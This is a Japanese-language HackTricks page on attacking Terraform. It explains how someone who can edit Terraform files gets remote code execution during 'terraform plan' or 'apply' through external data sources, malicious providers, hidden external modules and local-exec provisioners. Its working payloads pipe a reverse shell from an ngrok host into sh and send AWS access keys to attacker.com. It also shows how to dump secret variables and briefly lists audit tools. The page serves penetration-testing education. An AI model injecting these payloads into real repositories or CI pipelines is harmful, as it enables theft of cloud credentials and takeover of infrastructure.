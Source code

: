# Terraform セキュリティ

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)を**フォローする**。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有する。

</details>

## 基本情報

[ドキュメントから: ](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraformは、**インフラストラクチャをコード化するツール**であり、クラウドとオンプレミスのリソースを人間が読める設定ファイルで定義できます。これらのファイルはバージョン管理、再利用、共有が可能です。一貫したワークフローを使用して、インフラストラクチャのライフサイクル全体を通じてすべてのインフラストラクチャをプロビジョニングおよび管理できます。Terraformは、コンピュート、ストレージ、ネットワーキングリソースなどの低レベルコンポーネントから、DNSエントリやSaaS機能などの高レベルコンポーネントまで管理できます。

### Terraformの仕組み

Terraformは、クラウドプラットフォームや他のサービス上のリソースを、それらのアプリケーションプログラミングインターフェース(API)を通じて作成および管理します。プロバイダーにより、アクセス可能なAPIを持つほぼすべてのプラットフォームやサービスでTerraformを使用できます。

![](<../.gitbook/assets/image (33).png>)

HashiCorpとTerraformコミュニティは、既に**1700以上のプロバイダー**を作成しており、数千種類の異なるリソースとサービスを管理でき、この数は増え続けています。[Terraform Registry](https://registry.terraform.io/)で、AWS、Azure、GCP、Kubernetes、Helm、GitHub、Splunk、DataDogなど、すべての公開プロバイダーを見つけることができます。

Terraformのコアワークフローは3つの段階で構成されています:

* **書く:** 複数のクラウドプロバイダーやサービスにまたがるリソースを定義します。例えば、VPCネットワーク内の仮想マシンにアプリケーションをデプロイする設定や、セキュリティグループ、ロードバランサーを作成するかもしれません。
* **計画:** Terraformは、既存のインフラストラクチャとあなたの設定に基づいて、作成、更新、または破棄するインフラストラクチャを記述した実行計画を作成します。
* **適用:** 承認されると、Terraformは提案された操作を正しい順序で実行し、リソースの依存関係を尊重します。例えば、VPCのプロパティを更新し、そのVPC内の仮想マシンの数を変更する場合、Terraformは仮想マシンをスケーリングする前にVPCを再作成します。

![](<../.gitbook/assets/image (81).png>)

## Terraform ラボ

コンピュータにterraformをインストールするだけです。

こちらに[ガイド](https://learn.hashicorp.com/tutorials/terraform/install-cli)があり、こちらがterraformをダウンロードする[最良の方法](https://www.terraform.io/downloads)です。

## TerraformにおけるRCE

Terraformには**ウェブページやネットワークサービスを公開するプラットフォームがない**ため、列挙できるものはありません。したがって、terraformを侵害する唯一の方法は、**terraform設定ファイルを追加または変更できるようにすること**です。

しかし、terraformは非常に**センシティブなコンポーネント**であり、適切に機能するためには**特権アクセス**が必要です。

攻撃者がterraformが実行されているシステムを侵害する主な方法は、**terraform設定を格納しているリポジトリを侵害すること**です。なぜなら、それらはいずれかの時点で**解釈される**からです。

実際には、PRが作成された後に自動的に`terraform plan/apply`を実行するソリューションがあります。例えば**Atlantis**があります:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

terraformファイルを侵害できる場合、誰かが`terraform plan`または`terraform apply`を実行したときにRCEを実行するさまざまな方法があります。

### Terraform plan

Terraform planは**最も使用されるコマンド**であり、開発者/ソリューションは常にそれを呼び出すため、**RCEを取得する最も簡単な方法**は、`terraform plan`を実行する際に任意のコマンドを実行するterraform設定ファイルを汚染することです。

#### 外部プロバイダーの使用

Terraformは[`external`プロバイダー](https://registry.terraform.io/providers/hashicorp/external/latest/docs)を提供しており、Terraformと外部プログラム間のインターフェースを提供します。`plan`中に任意のコードを実行するために、`external`データソースを使用できます。

terraform設定ファイルに以下のようなものを注入すると、`terraform plan`を実行する際にリバースシェルが実行されます：
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### カスタムプロバイダーの使用

攻撃者は[カスタムプロバイダー](https://learn.hashicorp.com/tutorials/terraform/provider-setup)を[Terraform Registry](https://registry.terraform.io/)に送信し、その後、機能ブランチにTerraformコードを追加することができます（[こちらの例](https://alex.kaskaso.li/post/terraform-plan-rce)）。
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
プロバイダーは `init` でダウンロードされ、`plan` が実行されるときに悪意のあるコードを実行します。

例はこちらで見つけることができます [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### 外部リファレンスの使用

上記のオプションは有用ですが、あまり隠密性はありません（2つ目の方が隠密性は高いですが、1つ目よりも複雑です）。以下の提案に従って、さらに**隠密に**この攻撃を実行することができます：

* Terraformファイルにrev shellを直接追加する代わりに、rev shellを含む**外部リソースをロード**します：
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
以下のリバースシェルコードは [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules) で見つけることができます。

* 外部リソースでは、**ref** 機能を使用して、リポジトリ内のブランチに **terraform リバースシェルコードを隠す** ことができます。例えば：`git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform apply はすべての変更を適用するために実行されますが、[**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html) を含む **悪意のある Terraform ファイルを注入する** ことで RCE を取得することもできます。\
`main.tf` ファイルに以下のようなペイロードが終わることを確認するだけです：
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
**前のテクニックからの提案に従って**、この攻撃を**外部参照を使用してより慎重に実行**します。

## シークレットダンプ

`terraform apply` を実行する際に、terraformファイルに以下のようなものを追加することで、**terraformによって使用されるシークレット値をダンプ**することができます。
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## 監査ツール

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsecはterraformコードの静的分析を使用して、潜在的な誤設定を発見します。
* [**terascan**](https://github.com/tenable/terrascan): TerrascanはInfrastructure as Codeのための静的コードアナライザーです。

## 参考文献

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)


<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

